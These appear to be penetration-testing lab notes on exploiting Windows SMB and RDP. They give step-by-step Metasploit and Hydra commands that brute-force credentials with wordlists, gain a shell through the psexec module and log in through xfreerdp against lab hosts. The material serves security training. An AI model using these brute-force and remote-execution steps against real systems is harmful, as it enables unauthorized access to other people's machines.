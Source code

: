 PsExec is a lightweight telnet-replacement developed by Microsoft that allows you execute processes on remote windows systems using any user’s credentials. PsExec authentication is performed via SMB. We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt. It is very similar to RDP, however, instead of controlling the remote system via GUI, commands are sent via CMD.

In order to utilize PsExec to gain access to a Windows target, we will need to identify legitimate user accounts and their respective passwords or password hashes. This can be done by leveraging various tools and techniques, however, the most common technique will involve performing an SMB login brute-force attack. We can narrow down our brute-force attack to only include common Windows user accounts like: Administrator. After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system via PsExec and execute arbitrary system commands or obtain a reverse shell.


### Practical Exploiting SMB With PsExec

- `nmap -sV -sC demo.ine.local`
- `service postgresql start && msfconsole`
- `search smb_login`
- `use auxiliary/scanner/smb/smb_login`
- `options`
- `setg RHOSTS 10.2.24.141`
- `set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt`
- `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
- `set VERBOSE false` prints only the successful outputs
- `run` We could identify 4 users with accounts
- `use exploit/windows/smb/psexec`
- `set SMBUser Administrator`
- `set SMBPass qwertyuiop`
- `exploit`
- `shell` open shell
- `cd /`
- `dir`
- `type flag.txt` This reveals the flag to us.


### Exploiting Insecure RDP Service

- `ping demo.ine.local`
- `nmap -sV demo.ine.local` We have discovered that multiple ports are open. RDP default port is 3389. But, we have not discovered that port. We can notice that port 3333 is exposed. We can Identify RDP endpoints using an auxiliary module on port 3333 if it’s running RDP.
- `service postgresql start && msfconsole`
- `use auxiliary/scanner/rdp/rdp_scanner`
- `set RHOSTS demo.ine.local`
- `set RPORT 3333`
- `exploit` --> Detected RDP on 10.2.28.32:3333
- `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://demo.ine.local -s 3333` Running the Hydra tool to find a valid username and password from the provided list.
- `xfreerdp /u:administrator /p:qwertyuiop /v:demo.ine.local:3333` We have discovered four valid users and passwords. Access the remote server using xfreerdp tool.
